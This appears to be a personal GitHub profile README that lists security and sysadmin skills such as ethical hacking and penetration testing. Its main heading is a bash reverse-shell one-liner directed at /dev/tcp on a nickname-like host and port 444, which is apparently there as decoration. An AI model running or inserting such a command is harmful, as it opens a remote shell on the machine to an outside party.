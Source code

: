 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

   &lt;configuration&gt;

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/configuration&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git&perline=12  " />
  </a>
</p>
